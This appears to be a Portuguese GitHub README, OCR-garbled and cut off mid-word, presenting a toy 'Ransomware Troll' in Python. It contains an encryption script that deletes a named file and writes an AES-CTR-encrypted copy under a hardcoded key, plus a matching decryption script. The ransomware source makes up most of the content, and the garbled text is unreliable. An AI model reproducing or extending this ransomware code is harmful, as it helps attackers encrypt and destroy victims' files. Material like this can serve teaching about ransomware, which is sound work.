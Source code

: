 # Ransomware
Ransomware na Prática com Python

# Pré-requisitos
Antes de executar os códigos de descrição e criptografia, é necessário ter o Python instalado em seu sistema. Além disso, você deve ter uma biblioteca pyaesinstalada. Você pode conectá-lo usando o comandopip install pyaes .

# Código de Descripción
Aqui está o código base que pode ser usado para descrever arquivos criptografados pelo Ransomware Troll:

import os
import pyaes

*Nome do arquivo criptografado*

file_name = "arquivo.txt.ransomwaretroll"

*Abrir o arquivo criptografado em modo de leitura binária*

file = open(file_name, "rb")

file_data = file.read()

file.close()


*Chave para descriptografia*

key = b"testeransomwares"

aes = pyaes.AESModeOfOperationCTR(key)

*Realizar a descriptografia*

decrypt_data = aes.decrypt(file_data)

*Remover o arquivo criptografado*

os.remove(file_name)

#*Criar o arquivo descriptografado*

new_file = "arquivo.txt"

new_file = open(f'{new_file}', "wb")

new_file.write(decrypt_data)

new_file.close()

-Se de substituir "arquivo.txt.ransomwaretroll"pelo nome do arquivo criptografado real que você deseja descrever e"testeransomwares" pela chave correta de descritiva fornecida pelo atacante.

# Código de Criptografia
Aqui está o código base que pode ser usado para criptografar arquivos usando o Ransomware Troll:

import os

import pyaes

*Nome do arquivo a ser criptografado*

file_name = "arquivo.txt"

*Abrir o arquivo em modo de leitura binária*

file = open(file_name, "rb")

file_data = file.read()

file.close()

*Remover o arquivo original*

os.remove(file_name)

*Chave para criptografia*

key = b"testeransomwares"

aes = pyaes.AESModeOfOperationCTR(key)

*Realizar a criptografia*

crypto_data = aes.encrypt(file_data)

*Nome do novo arquivo criptografado*

new_file = file_name + ".ransomwaretroll"

new_file = open(f'{new_file}', 'wb')

new_file.write(crypto_data)

new_file.close()

-Se de substituir "arquivo.txt"pelo nome do arquivo que você deseja criptografar e"testeransomwares" pela chave correta de criptografia. O código criptografado será o arquivo selecionado e salvará uma versão criptografada com a extensão `.ransom
